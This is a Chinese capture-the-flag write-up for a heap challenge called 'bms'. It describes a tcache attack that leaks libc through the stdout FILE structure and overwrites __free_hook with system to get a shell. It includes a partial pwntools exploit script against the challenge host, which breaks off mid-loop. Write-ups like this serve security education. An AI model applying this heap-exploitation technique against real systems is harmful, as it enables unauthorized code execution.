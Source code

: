 

### bms

远程测试，发现有tcache机制

于是malloc到stdout结构体，去改头，然后leak出libc地址，找了下，发现是libc-2.26的

leak那一步可以看angleboy的slide

https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique

然后再利用tcache的漏洞，写__free_hook为system，free掉之后直接get shell

下面是payload

```
from pwn import *

debug=0

context.log_level='debug'

if debug:
    p=process('./pwn')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
    e=ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
else:
    p=remote('90b826377a05d5e9508314e76f2f1e4e.kr-lab.com', 40001)
    e=ELF('./libc6_2.26-0ubuntu2_amd64.so')

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

ru('username:')
se('admin\n')
ru('password:')
se('frame\n')
ru('>')

def add(name,sz,content):
    sl('1')
    ru('name')
    se(name)
    ru('size:')
    sl(str(sz))
    ru('description:')
    se(content)
    return ru('>')

def delete(idx):
    sl('2')
    ru('index:')
    sl(str(idx))
    ru('>')

sz = 0x88
add('0',sz,'123')

for i in range(4):
```